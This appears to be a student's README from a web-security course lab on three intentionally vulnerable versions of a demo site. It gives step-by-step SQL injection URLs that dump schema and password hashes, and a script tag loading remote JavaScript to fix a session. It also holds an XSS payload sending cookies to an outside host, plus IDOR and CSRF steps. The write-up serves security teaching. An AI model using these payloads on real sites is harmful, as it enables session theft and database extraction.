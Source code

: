 # Project 8 - Pentesting Live Targets

Time spent: **51** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)<br />  
    ![GIF Walkthrough](./img/B1.gif)<br />  
    Steps to recreate:
- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1
- Replace the id parameter with a single quote ```'```.<br />
Example: ```https://104.198.208.81/blue/public/salesperson.php?id='```
- After the quote type url encoded SQL command.<br />
Example: ```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+```
- You can interate through the records by changing the ```LIMIT``` and ```OFFSET``` values
- Some of the example commands:<br />```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+```

- Data collected:
    - Database: globitek_blue
    - Tables:
        - users
        - territories
        - states
        - salespeople_territories
        - salespeople
        - failed_logins
        - countries
        - feedback
    - Columns
        - id
        - name
        - code
        - username
        - count
        - last_attempt
        - email
        - feedback
        - created_at
        - first_name
        - last_name
        - phone
        - territory_id
        - salesperson_id
        - country_id
        - state_id
        - position
        - hashed_password

Vulnerability #2: Session Hijacking/Fixation<br />  
    ![GIF Walkthrough](./img/B2short.gif)<br />  
    Steps to recreate:
- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
  ```html
        <script src="https://bit.ly/2z1UCVh"></script>
  ```  
  https://bit.ly/2z1UCVh is a shortened link for a <a href="./js_scripts/Untitled-8.js">js script</a> hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin  
This is possible because new PHPSESSID is not generated when a used logs into website



## Green

Vulnerability #1: Username Enumeration<br />  
    ![GIF Walkthrough](./img/G2.gif)<br />  
    Steps to recreate:
- On the Log In page try to bruteforce diffent usernames.
- The usernames tha exist in the database will get the message "Log in was unsuccessful" in bald.  
The error message is highlited in bald because a different CSS class is assigned to the error message for usernames that exit in the database.


Vulnerability #2: Cross-Site Scripting (XSS)<br />  
    ![GIF Walkthrough](./img/G1.gif)<br />  
    Steps to recreate:
- Go to the Contact page.
- In the text area type the following script 
  ```html
    <script>var node = document.createElement('img');
    node.src = "http://192.168.1.2:3000?cookie="+document.cookie;
    document.getElementById("main-content").appendChild(node);</script>
  ```
- Submit the form
- When admin checks the feeedback ```PHPSESSID``` will be sent to the http://192.168.1.2:3000 address as a GET parameter


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)<br />  
    ![GIF Walkthrough](./img/R1.gif)<br />  
    Steps to recreate:
- Go to the "Find a Salesperson" page.
- Click on one of the salespersons page.
- Increment the number at the end of the URL.

Vulnerability #2: Cross-Site Request Forgery (CSRF)<br />  
    ![GIF Walkthrough](./img/R2_2.gif)<br />  
    Steps to recreate:
- When logged in as an admin go to http://artemskit.github.io .  
See the code for the page <a href="./html/index.html">here</a>
- A new user will be created with the username "johnnybravo".
- This is possible because /red/public/staff/users/new.php does not check "csrf_token" in the new user creation form

## Notes

Any user can be deleted, which creates a situation where noone can log into the website.  
Any user can use XSS to redirect away from the "Feedback" page, which creates a situation where noone can use this page.
